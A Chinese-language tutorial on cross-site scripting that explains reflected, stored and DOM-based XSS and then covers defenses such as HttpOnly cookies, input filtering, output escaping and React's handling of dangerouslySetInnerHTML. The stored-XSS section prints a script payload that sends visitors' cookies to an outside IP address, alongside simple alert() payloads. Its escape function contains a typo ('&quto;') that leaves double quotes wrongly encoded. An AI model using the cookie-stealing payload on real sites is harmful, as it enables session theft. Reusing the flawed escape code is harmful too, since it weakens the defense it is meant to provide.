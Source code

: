 # XSS 攻击
## 什么是 XSS 攻击？
XSS 是 Cross-Site Scripting（跨站脚本攻击）的简称,为了和 CSS 区分，所以把攻击的第一个字母改为 X。
是一种代码注入攻击。攻击者通过在在网站注入恶意脚本，使之在用户的浏览器上运行。恶意脚本可以获取用户的信息如 cookie 等，进而危害数据安全。

以下情况容易发生 XSS 攻击
1. 从一个不可靠的链接进入到一个 Web 应用程序
2. 没有过滤掉恶意代码的动态内容被发送给 Web 用户

恶意脚本一般包括 JavaScript，有时也会包含 HTML 和 Flash。攻击方式有很多种，但他们的 *共同点为*：**将一些隐私数据像 cookie、session 发送给攻击者，将受害者重定向到一个由攻击者控制的网站，在受害者的机器上进行一些恶意操作**。

跨站体现在哪里？
所获取到的 cookie 发送给 XSS 平台

常见的 XSS 平台
DVWA



## XSS 分类
根据攻击的来源，可以分为存储型、反射型、DOM型。

| 类型      | 存储区                  | 插入点          |
| --------- | ----------------------- | --------------- |
| 反射型 XSS | URL                     | HTML            |
| 存储型 XSS | 后端数据库              | HTML            |
| DOM 型 XSS  | 后端数据库/前端存储/URL | 前端/JavaScript |




### 反射型 XSS
反射型指的是：攻击者构建了特殊的 URL，当服务器接收到请求后，从 URL 中获取数据，拼接到 HTML 后返回，从而导致恶意代码的执行。

场景：
有个搜索接口，后端是搜索内容，如果不对数据做转义等处理，可能会造成这样的 URL
```bash
https: //xxx.com/search?query=<img src="enpty.png" onerror="alert('xss')">
```
反射型是在无害 url 的基础上构造特殊的 url，在 url 上给注入点 get 特殊的字符串，当别人点击构造的链接时触发恶意代码；

具体流程：
当攻击者构建了这个 url 之后，会把这个 url 做成一个链接，用户点击了这个链接之后就会执行恶意代码。
为了隐蔽起见，可能会使用一些技术比如：短网址，把现在 url 压缩。这样用户更容易上当。


常见于 GET 的方式，POST 的内容也可以触发

低危漏洞



### 存储型 XSS
存储型指的是：攻击者将恶意代码提交到了网站的数据库中，当用户请求数据的时候，服务器将其拼接为 HTML 后返回给了用户，从而导致了恶意代码的执行。

比如将 恶意代码提交到后端去，那么所有访问这个网页的用户，都会报错。
场景：
比如一个留言板，攻击者在留言板写入恶意代码，提交的字符串上传到了服务器，当别人访问这个留言板时就会触发代码；
代码执行的过程中，有可能会获取用户的 cookie，然后发送到攻击者所在的机器上，或者指定的服务器上，这样攻击者就可以盗用用户的 cookie 登录到这个网站

具体流程：
有个论坛，大家可以发布留言。然后后面的用户进来可以看到这些留言
* 如果说留言是一个文本输入框，那么攻击者如果输入 `<script>alert('这里我注入一些恶意代码')</script>` 那么浏览器就会执行里面的代码，所有进入这个页面的用户，就都会弹出这些内容。
* 同样是这个输入框，如果用户是写入的如下代码 
  ```js
  <script>document.write('<img src="http://172.22.144.20/?'+document.cookie+'"/>');</script>
  ```
  那么用户浏览到这个页面的时候，就会把自己的 cookie 发送到这台机器上。然后攻击者可以使用拿到的 cookie 信息，登录账号做一些恶意行为


高危漏洞


### DOM 型 XSS
DOM 型指的是：攻击者构建了特殊的 URL，用户打开网站后， js 脚本 从 URL 中获取数据，从而导致了恶意代码的执行。
类似于反射型，区别在于 DOM 型 XSS 并不会和后台进行交互，前端直接将 URL 中的数据不做处理并动态插入到 HTML中，是纯粹的前端安全问题，要做防御也只能在客户端上进行防御。

场景：当你在一个购物网站搜索「上衣」，返回页面中显示「上衣的搜索结果如下：」，这里的上衣可能就是直接由 JS 获取你提交的值插入的，而不是从后端而来。

低低危漏洞


## 防范措施

### HttpOnly
浏览器将禁止页面的 JavaScript 访问带有 HttpOnly 属性的 Cookie
就是服务器在 setCookie 的时候，设置 HttpOnly；
在 cookie 中设置 HttpOnly 属性后，JS 脚本将无法读取到 cookie 信息。

它解决的是 XSS 后 Cookie 劫持问题。就是无法拿到这种类型的 Cookie。




### 输入检查（输入过滤）
原则：**不要相信用户的任何输入**。

措施：对于用户的任何输入要进行检查、过滤、转义。建立可信任的字符和 HTML 标签白名单，对于不在白名单之列的字符或者标签进行过滤或编码。

说明：而在一些前端框架中，都会有一份 decodingMap， 用于对用户输入所包含的特殊字符或标签进行编码或过滤，如 <，>，script，防止 XSS 攻击。

一般是对输入格式的检查，例如：用户名、密码、邮箱、电话号码...等，按照规定的格式输入。

### 输出检查（转义 HTML）
一般说来，所有需要输出到 HTML 页面的变量，全部需要使用编码或者转义来防御。
措施：对内容进行编码或者转义。


比如对于 `"`、`<`、`>`、`/`、`&`、`'` 等进行转义
```js
function escape(str) {
  str = str.replace(/&/g, '&amp;')
  str = str.replace(/</g, '&lt;')
  str = str.replace(/>/g, '&gt;')
  str = str.replace(/"/g, '&quto;')
  str = str.replace(/'/g, '&#39;')
  str = str.replace(/`/g, '&#96;')
  str = str.replace(/\//g, '&#x2F;')
  return str
}

```


### 白名单






## React 如何防范 XSS 攻击
React DOM 在渲染所有输入内容之前，默认会进行转义。
所有的内容在渲染之前都被转换成了字符串，因此恶意代码无法成功注入，从而有效地防止了 XSS 攻击。我们具体看下：

但是有一个需要自己考虑 `dangerouslySetInnerHTML` 
```javascript
 <p
  dangerouslySetInnerHTML={{
    __html: getURL(dialogData.content),
  }}
 />
```

